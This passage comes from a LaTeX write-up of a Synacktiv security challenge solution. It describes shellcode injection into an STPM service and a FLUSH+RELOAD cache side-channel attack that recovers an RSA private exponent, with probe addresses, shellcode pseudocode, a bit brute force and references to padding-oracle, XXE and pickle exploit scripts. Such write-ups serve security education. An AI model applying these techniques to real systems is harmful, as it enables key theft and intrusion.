    \center
    
\includegraphics[scale=0.7]{jmp_rsp}
    \caption{jmp rsp opcode}
\end{figure}

Our first attempt was to send the command "1" to the STPM using this vulnerability, but the private parts was not displayed:

\begin{lstlisting}[caption={Result of the command "1" sent to the STPM},numbers=none,style=colortilde]
key 0: ASYMETRIC
	n = 0x000000B740DF8EE7BEFFE41A337B4E56FFE903D6D62C75FA98A740AD05A19A80A03597[...] 
	e = 0x00010001
	q = ~PRIVATE :)~
key 1: SYMETRIC
	k = ~SECRET :)~
key 2: EMPTY
key 3: EMPTY
key 4: EMPTY
key 5: EMPTY
key 6: EMPTY
key 7: EMPTY
key 8: EMPTY
key 9: EMPTY
key 10: EMPTY
key 11: EMPTY
key 12: EMPTY
key 13: EMPTY
key 14: EMPTY
key 15: EMPTY
\end{lstlisting}


\subsection{Side-Channel Attack on RSA implementation}
\subsubsection{FLUSH+RELOAD technique: a High Resolution, Low Noise, L3 Cache Side-Channel Attack}
Thanks to the hint delivered by Synacktiv on twitter, we knew that the aim of the step 3 was to exploit a cache attack on the shared lib.\newline
The principle of a cache attack is to measure the time to access a shared memory region depending on the last access to that same memory region. Indeed, thanks to the cache mechanism the time to access an address is different if the address is loaded in the cache or not.  We can sum up how a cache attack works with the following pseudo code

\begin{lstlisting}[caption={Cache attack pseudocode},numbers=none,style=colortilde]
while true:
    a = Measure time
    access memory zone
    b = Measure time
    flush memory zone from cache

    if b-a < mean_access_time:
        the memory zone was accessed by another process
    else:
        the memory zone wasn't accessed
\end{lstlisting}
\newpage
We've read various paper and try multiple things related to cache attacks. 
Our first try was to measure the accesses to the AES SBox tables. But while the size of a cached page is 64 octets and the size of the tables is 1024 octets, we couldn't manage to get usefull results. \newline

The we've decided to try another method, the one described by the following paper: \href{https://eprint.iacr.org/2013/448.pdf}{FLUSH+RELOAD technique: a High Resolution, Low Noise, L3 Cache Side-Channel Attack}\newline

To understand the principle of this attack, we have to understand how the RSA decryption is done by the libsec code. To be able to apply a big pow on a big number, the code uses the method of square and multiply. By consuming the private key bit by bit, a test is done on the bit. If the bit is one, the two operations square and multiply are applied. If the bit is 0, only the square operation is applied.

Back to our attack, we understand that if we are able to monitor the accesses to the square and multiply operation by the shared crypto lib, we will be able to recover the private key. So we will use the flush and reload method to monitor the acceses to memory zone into these function code and recover the key.

\subsubsection{Reverse engineering RSA implementation}
As seen in section 3.3.3, the function in charge of applying RSA decryption is SEC\_unwrap. In this function, we are looking for a code pattern which tests if a bit is set to 1 or 0 and choose the function to apply depending on that test.

After exploring the code of SEC\_unwrap function, such a piece of code is found in the procedure \code{0x34C0}.\newline

\begin{figure}[H]
    \center
    
\includegraphics[scale=0.45]{square_multiply}
    \caption{Identification of square and multiply functions}
\end{figure}

In this piece of code, we can clearly see that depending on the value of \code{al}, the code applies or not the function multiply. 
From here, all we have to do is identify a good place to probe for accesses into each function. According to the paper described above, a good place is a loop into the function itself. After a few tries, we have used the following addresses: 
\begin{itemize}
\item Square: \code{0x3064}
\item Multiply: \code{0x32e4}
\end{itemize}
\newpage
\subsubsection{Remote application using shellcode in SecDrop process}

To extract the "d" RSA parameter, the "multiply" and "square" functions must be supervised during the RSA operation.
To identify cache hit and cache miss, a difference between them should be found. To do this we have monitored the square function, the memory load time distribution is shown in Figure \ref{load-time-distribution}. We considered load time below 200 cycles as cache hit.


\begin{figure}[H]
    \center
    
\includegraphics[scale=0.65]{load-time}
    \caption{Memory load time distribution}
    \label{load-time-distribution}
\end{figure}

Our first attempt was to continuously measure the "multiply" and "square" functions, the results appeared to be correct, but a lot of noise was present in the measurements. To reduce this noise, we have reduced the probe frequency by consuming cycles between each measurement. With a good frequency results can be shown in Figure \ref{hits}.\newline

\begin{figure}[H]
    \center
    
\includegraphics[scale=0.35]{hits}
    \caption{First bits extraction: multiply and square cache hits}
    \label{hits}
\end{figure}

To extract all the bit from the "d" parameter, the total time of the RSA operations should be monitored, to adjust the number of measurement, cache hit and cache miss are added to a graph, the RSA operations are clearly visible (see Figure \ref{RSA_operations}).


\begin{figure}[H]
    \center
    
\includegraphics[scale=0.35]{RSA_operations}
    \caption{RSA operations}
    \label{RSA_operations}
\end{figure}

The shellcode used to get these results is summarized by the following pseudo-code:

\begin{lstlisting}[language=python,caption={Shellcode pseudocode},numbers=none,style=colortilde]
#!/usr/bin/pseudocode

number_of_measurement=25000
SOCKET_TO_STPM.send("3\n2\n0\n"+enckey+"\n")

count=0
result=[]
while( count < number_of_measurement ):
	a=rdtsc()
	get_addr_value(SQUARE_ADDR)
	b=rdtsc()
	clflush(SQUARE_ADDR)
	if b - a < 200:
		result.append(2) # hit square
	else:
		a=rdtsc()
		get_addr_value(MULTIPLY_ADDR)
		b=rdtsc()
		clflush(MULTIPLY_ADDR)
		if b - a < 200:
			result.append(1) # hit multiply
		else
			result.append(0) # no hit
	wait()
	count+=1

SOCKET_TO_CLIENT.send(result)
exit(0)
\end{lstlisting}

The shellcode retrieves the cache hits against the "square" and "multiply" function, each hit is sent in 1 byte, and the byte value represent which function was hit:
\begin{itemize}
    \item 0: no hit
    \item 1: hit in the multiply function
    \item 2: hit in the square function
\end{itemize}

To get the "d" parameter bits, cache hits must be parsed, as block:
\begin{itemize}
    \item A block of square hits followed by a block of multiply hits represent a "1" bit.
    \item A bloc of square hits represent a "0" bit.
\end{itemize}
\newpage
The full attack code can be be found in listing \ref{full-cache-attack}, and the shellcode ASM can be found in listing \ref{shellcode}.

1377 bits are found with the cache attack, the 7 missing bits are found using a brute-force attack.
The results of the RSA decryption should be a PKCS\#1 v1.5 padded message:
\begin{itemize}
    \item The first two bytes 0x00, 0x02 identifies the padding.
    \item Random padding
    \item Null byte as separator
    \item The plaintext (The 16 bytes AES key used to decrypt the archived message)
\end{itemize}

The 7 missing bits are found in seconds:

\begin{lstlisting}[caption={Bruteforcing missing bits (see listing \ref{BF_RSA})},numbers=none,style=colortilde]
$ python2 rsa_bf.py |egrep '^0002.*00[0-9A-F]{32}$'
~0002~C2AC0223377433D0E8D21F23C2977850CDF6E045121C04E036B3CD5459B286A80ED3BE325573
86653B0C65B12609B65986BC73A3BEAF62FEE0BDF76BA439CDE1C7654450D07A5359A6169F8D795F
5244C7A9F7339919F37371018DDBFAA40767C1B1DCCA0C42E4D2B12ADBAE33FA827FE1E8406F4E16
A2F49C8202CEF441F7A3180AA5A8A127FD107EE49E152F35F1DC86951B51586E1F8868E3~00~93AF8C
EE3EC779D673ED278E43E386A7
\end{lstlisting}

Then with the AES key, it is easy to decrypt the archived message.

\begin{lstlisting}[caption={Decrypt the archived message (see listing \ref{RSA_decrypt})},numbers=none,style=colortilde]
$ python2 decrypt_msg.py
Good job! 
Send the secret ~3fcba5e1dbb21b86c31c8ae490819ab6~ to ~82d6e1a04a8ca30082e81ad27dec7cb4@synacktiv.com~.      
Also, don't forget to send us your solution within 10 days.

Synacktiv team
\end{lstlisting}




\newpage
\section{Conclusion and Thanks}

This challenge was very interesting and very informative, the cache attack in the step3 was completely unknown to us.
\newline
Thanks to the Synacktiv team for this challenge, and for the hint delivered on their Twitter account (without them, we would not have solved this challenge).\newline

Thanks to @tlk\_\_\_ for motivating us to begin the challenge and for helping out when he wasn't drunk.
\newline

Thanks to Guillaume Berard for reviewing this document.


\newpage

\newpage

\section{Appendices}

\subsection{Python code to get fixed bits}
\lstinputlisting[language=Python,label=analyze_key,caption={Python code to get fixed bits}]{python-tools/analyse_key.py}
\newpage


\subsection{Python code to generate patterns}
\lstinputlisting[language=Python,label=generate_regex,caption={Python code to generate patterns}]{python-tools/generate_regex.py}
\newpage

\subsection{Python code to encrypt data using the padding oracle}
\lstinputlisting[language=Python,label=padding-encrypt,caption={Python code to encrypt data using the padding oracle}]{python-tools/chiffrement.py}
\newpage

\subsection{Python code to decrypt data using the padding oracle}
\lstinputlisting[language=Python,label=padding-decrypt,caption={Python code to decrypt data using the padding oracle}]{python-tools/dechiffrement.py}
\newpage

\subsection{Python code to retrieve remote files using XXE}
\lstinputlisting[language=Python,label=XXE-tool,caption={Python Code to retrieve remote files using XXE}]{python-tools/xxe.py}
\newpage

\subsection{Pickle opcode compiler}
\lstinputlisting[language=Python,label=pickle-compiler,caption={Pickle opcodes}]{python-tools/compiler.py}
\newpage

\subsection{Pickle escape opcodes}
\lstinputlisting[language=Python,label=Pickle_escape,caption={Pickle opcodes}]{python-tools/pickle.as}
\newpage

\subsection{Python code to send Pickle exploit}
\lstinputlisting[language=Python,label=Pickle_aes,caption={Python code to send Pickle exploit}]{python-tools/pickle_aes.py}
\newpage

\subsection{Cache attack x86-64 shellcode}
\lstinputlisting[language={[x64]Assembler},label=shellcode,caption={Cache-attack shellcode}]{python-tools/shellcode.asm}
\newpage

\subsection{Cache attack Python code}
\lstinputlisting[language=Python,label=full-cache-attack,caption={Cache-attack python code}]{python-tools/cache_attack_final.py}
\newpage

\subsection{Python code to bruteforce RSA missing bits}
\lstinputlisting[language=Python,label=BF_RSA,caption={Bruteforce RSA missing bits}]{python-tools/rsa_bf.py}
\newpage



\subsection{Python code to decrypt archived message}
\lstinputlisting[language=Python,label=RSA_decrypt,caption={Decrypt archived message}]{python-tools/decrypt_msg.py}





\end{document}
